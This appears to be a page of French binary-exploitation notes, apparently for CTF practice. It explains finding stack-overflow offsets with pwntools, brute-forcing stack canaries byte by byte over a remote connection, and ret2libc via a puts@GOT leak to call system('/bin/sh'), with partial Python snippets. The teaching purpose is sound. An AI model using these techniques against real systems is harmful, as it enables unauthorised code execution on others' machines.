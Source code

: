 
# 5. Phases d’exploitation détaillées — raisonnements possibles

## 5.1. Trouver l’offset d’écrasement (stack overflow simple)
- Envoyer pattern (`cyclic`) → crash → récupérer RIP.
- Avec core dump ou gdb : `x/i $rip` ou inspecter registre qui contient `cyclic` pattern.
- Calculer `offset = cyclic_find(rip_value)`.

```python
from pwn import *
p = process('./vuln')
p.sendline(cyclic(200))
p.wait()
core = p.corefile
rip_value = core.read(core.rsp, 8)  # ou core.rip
# plus simple : use cyclic_find on core.rip
```

## 5.2. Canary détecté → stratégies
- **Leak canary** via format string / info leak / printf vulnerability.
- **Stack pivot / ret2reg** rarement utile.
- **Bruteforce canary** (lent mais possible localement / si remote tolerant) : envoyer bytes un par un jusqu’à succès (détecter crash vs non crash). **Attention**: risques d'IP ban ; utiliser si safe.
- **Utiliser heap overflow/other vuln** pour contourner.

Brute force exemple (byte-par-byte) :
```python
canary = b'\x00'
for i in range(1,8):
    for b in range(256):
        p = remote('host',1337)
        payload = b'A'*offset + canary + bytes([b])
        p.sendline(payload)
        if not crashed(p):
            canary += bytes([b])
            break
```

## 5.3. NX actif mais pas PIE, pas Canary → ret2libc / ROP
- Si binaire non-PIE (addresses in binary fixed), on peut utiliser PLT/GOT leak or direct ret2libc if libc address known.
- Si libc inconnue, leak une adresse libc (e.g., `puts@GLIBC`), calculer libc base, trouver `system` et `"/bin/sh"` ou utiliser `one_gadget`.

Exemple leak + ret2libc :
1. ROP pour appeler `puts(puts@GOT)` ou `puts(printf@GOT)` puis retour au `main`.
2. Lire sortie, calculer base libc, construire rop `system("/bin/sh")`.
